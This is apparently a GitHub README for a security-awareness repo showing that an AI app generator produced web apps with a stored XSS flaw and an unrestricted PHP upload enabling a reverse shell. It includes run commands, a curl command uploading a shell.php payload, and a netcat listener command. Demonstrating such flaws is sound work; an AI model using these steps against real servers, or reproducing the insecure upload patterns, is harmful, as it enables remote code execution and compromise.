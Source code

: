 # bolt-pwn 🔥  
**XSS and Reverse Shell vulnerabilities in AI-generated webapps**

Earlier this week I tested [bolt.new](https://bolt.new), an AI tool for generating fullstack web apps in the browser.  
It's fast, flashy… and dangerously naive when it comes to security.

This repo contains two projects I asked it to generate — both with serious vulnerabilities.

---

## 💣 What’s Inside

### `/node/` — Stored XSS

A Node.js + EJS file upload utility generated by Bolt.  
**Vulnerability**: Allowed uploading `.html` files, served them directly — no sanitization.

🧪 Run the server:

```bash
cd node && npm install && npm run dev
```

🧪 Payload: [xss.html](node/payload/xss.html) — upload this file  
🔗 Visit `/uploads/<filename>` in your browser to trigger the script and verify that the JavaScript executes.

---

### `/php/` — Reverse Shell (RCE)

A PHP file upload handler that:
- Accepts all file types
- Uses original filenames
- Serves uploads from a public directory

🧪 Run the server:

```bash
cd php && php -S localhost:8080
```

🧪 Payload: [shell.php](php/payload/shell.php) — insert your private IP or attacker IP and upload it `curl -F 'file=@shell.php' http://localhost:8080/api/upload.php`   
💥 Visit `/uploads/shell.php` and ensure you have a listener running:

```bash
nc -lvnp 4444
```
---

## ⚠️ Disclaimer

This repo is for educational and awareness purposes only.
Please don’t deploy this as-is, and don’t use these techniques unethically.

---

## 🧠 Takeaway

AI tools can build working software in seconds — but they don’t think like attackers.
You still need to review the code, validate inputs, and secure your apps.

---

## 📎 Related Post

Read the background and see the screenshots on my [my LinkedIn post](https://www.linkedin.com/posts/jeppelillevang_vibecoding-ai-development-activity-7321456876259303424-soUS?utm_source=share&utm_medium=member_desktop&rcm=ACoAAAIDUx4Bm-1Hxlq6SSERPwMmANPcGL5UTZc)

More blog content coming soon.
